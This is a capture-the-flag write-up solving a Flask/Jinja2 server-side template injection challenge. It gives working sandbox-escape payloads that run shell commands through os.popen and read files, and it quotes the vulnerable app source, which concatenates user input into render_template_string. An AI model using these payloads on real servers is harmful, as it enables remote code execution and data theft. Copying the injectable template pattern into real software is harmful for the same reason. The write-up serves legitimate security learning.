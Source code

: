 The app has probably a Jinja2 SSTI, since the name-part of the code gets executed, e.g. check

`https://bluehens-cat-the-flask-patched.chals.io/greeting/{{1+1}}`

This returns "Welcome 2", so we know that `1+1`has been evaluated to 2.

As a result, we want to use this code execution to cat the flag (as stated in the task).

Notice, that we cannot just call e.g. ``{{open('flag.txt')}}`` since the Jinja2 Functions are sandboxed and you can only call a subset of all python functions.

Googling around I found [this website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti). There you can read how to escape the sandbox.
I first let me tell all the files in the challenge directory:

`https://bluehens-cat-the-flask-patched.chals.io/greeting/{{config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read()}}`

which returns

`Hello chall.py flag1.txt requirements.txt sum_suckers_creds!`

Now lets print flag1.txt:

`https://bluehens-cat-the-flask-patched.chals.io/greeting/{{ request.__class__._load_form_data.__globals__.__builtins__.open("flag1.txt").read() }}`

which gives us the **flag** `UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}` !

(besides if we print chall.py we get:
```python
from flask import Flask, render_template_string
from random import choice
app = Flask(__name__)
@app.route("/")
def home():
  return "USAGE: /greeting/:name"
@app.route("/greeting/<name>")
def greeting(name):
  greeting = choice(["Hi", "Hello", "Welcome"])
  template = ''' <!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8" /> <title>Greeting</title> </head> <body> <h1>''' + greeting + ' ' + name + '''!</h1> </body> </html>'''
  return render_template_string(template)
  
if __name__ == '__main__':
  #app.run(debug=True,port=8080)
  app.run(debug=True,host="0.0.0.0",port=8080)
```
so we can see that the error exists by using greeting and name directly in render_template_string.
  
